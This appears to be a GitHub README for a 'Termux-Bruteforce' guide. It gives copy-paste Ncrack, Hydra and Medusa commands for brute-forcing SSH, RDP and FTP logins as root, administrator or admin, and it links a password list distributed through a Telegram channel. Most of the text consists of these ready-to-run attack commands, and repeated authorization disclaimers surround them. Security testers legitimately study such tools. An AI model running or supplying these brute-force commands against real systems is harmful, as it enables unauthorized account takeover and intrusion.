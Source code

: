 # Termux-Bruteforce
[How to Bruteforce a Network Services such as SSH, HTTP, FTP, Telnet, IMAP, SMB]


PASSWORD.TXT file can be found in Telegram Channel with link 👇👇
https://t.me/VPNConFiles/1330

Or Download directly from here
[Download](Password_.txt)

As a Novice, I cannot promote or suggest any illegal or unethical activities that may harm any individual or organization. It is important to use technology, tools, and information only for ethical and lawful purposes, in compliance with local and international laws and regulations. It is recommended to use tools like Bruteforce only for authorized and legitimate purposes, such as testing the security of your own systems or with written permission from the systems owners. Using such tools for any illegal or unethical purposes without proper authorization can result in severe legal penalties and consequences.






If you have the appropriate authorization to perform a bruteforce attack on a system, then you can use the following tools on Termux:

**1. Hydra:** It is a fast and flexible login cracker which supports various protocols, including *HTTP, FTP, Telnet, IMAP*, etc.


**2. Medusa:** It is a command-line tool that runs on Linux, macOS, and Termux. It is designed to test the security of password-protected services, such as *FTP, SSH, IMAP*, etc.


**3. Ncrack:** It is a high-speed network authentication cracking tool which can be used to test the security of network services, such as *SSH, HTTP, SMB*, etc.


However, please note that bruteforcing any system without proper authorization is illegal and unethical and can result in severe legal penalties and consequences. Ensure that you have written permission from the systems owners to test the security.



**Here are some examples of using Ncrack on Termux:**



**[How to Setup NCRACK in Termux](https://github.com/okyerejosephokraku60/Ncrack)**

**1. Ncrack with SSH:**
To perform a bruteforce attack on an SSH server with Ncrack, use the following command:

```
ncrack -v -p 22 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 22 --user root -P passwords.txt 192.168.1.100
```

**2. Ncrack with RDP:**
To perform a bruteforce attack on an RDP server with Ncrack, use the following command:

```
ncrack -v -p 3389 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an RDP server with IP address 192.168.1.100 and username administrator, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 3389 --user administrator -P passwords.txt 192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.







**Here are some examples of using Hydra on Termux:**

**[How to Setup HYDRA in Termux](https://github.com/okyerejosephokraku60/Hydra)**

**1. Hydra with SSH:**
To perform a bruteforce attack on an SSH server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ssh://<target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
hydra -l root -P passwords.txt ssh://192.168.1.100
```

**2. Hydra with FTP:**
To perform a bruteforce attack on an FTP server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ftp://<target_ip>
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
hydra -l admin -P passwords.txt ftp://192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.









**Here are some examples of using Medusa on Termux:**

**1. Medusa with SSH:**
To perform a brute-force attack on an SSH server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ssh
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
medusa -u root -P passwords.txt -h 192.168.1.100 -M ssh
```

**2. Medusa with FTP:**
To perform a brute-force attack on an FTP server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ftp
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
medusa -u admin -P passwords.txt -h 192.168.1.100 -M ftp
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.
